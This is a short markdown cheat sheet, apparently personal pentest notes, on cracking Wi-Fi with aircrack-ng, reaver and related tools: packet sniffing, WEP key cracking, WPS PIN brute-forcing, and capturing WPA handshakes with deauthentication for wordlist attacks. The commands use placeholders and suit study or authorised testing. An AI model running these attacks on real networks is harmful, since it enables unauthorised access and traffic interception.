 # airodump-ng (Packet Sniffing)

* Part of the _aircrack-ng_ suit.
* Packet Sniffer.

```
airodump-ng <monitor_interface>
```

## Sniff specific band

```
airodump-ng --band a <monitor_if>  // 5Ghz
airodump-ng --band abg <monitor_if> // 2.4Ghz & 5Ghz
```

## Targeted Packet Sniffing

The following command will create a `.cap` file that can later be analyzed with Wireshark.

```
airodump-ng --bssid <MAC> --channel <client_CH> --write test <monitor_if>
```

You will see a section listing `STATION`, which are the clients/devices connected to the BSSID's network

## Cracking WEP

1. Capture large number of packets/IVs (_airodump-ng_)
2. Analyse captured IVs and crack key (_aircrack-ng_)

```
// while sniffing network
// can use Fake Authentication & ARP Replay attack to generate new packets
aircrack-ng <CAP_FILE>
```

## Cracking WPS (WPA/WPA2)

We'll use _Reaver_ to bruteforce WPS pin.

```
wash --interface <MONITOR_INTERFACE>

aireplay-ng --fakeauth 30 -a <TARGET_MAC> -h <MONITOR_IF_MAC> <MONITOR_IF_NAME>

reaver --bssid <TARGET_NETWORK_MAC> --channel <AP_CHANNEL> --interface <MONITOR_IF_NAME> -vvv --no-associate
```

## Cracking WPA/WPA2

We need _handshake packets_.

* The handshake does not contain data that helps recover the key.
* The handshake contains data that can be used to check if a key is valid or not.

```
airodump-ng --bssid <TARGET_MAC> --channel <TARGET_CHANNEL> --write <FILE_NAME> <MONITOR_IF_NAME>
```

We can use _Deauthentication Attack_ to trigger re-connection and handshake packets.

Once we get a handshake packet we can do a __wordlist attack__.

Create a wordlist with a tool such as _crunch_.

```
aircrack-ng <CAP_FILE> -w <WORDLIST_FILE>
```
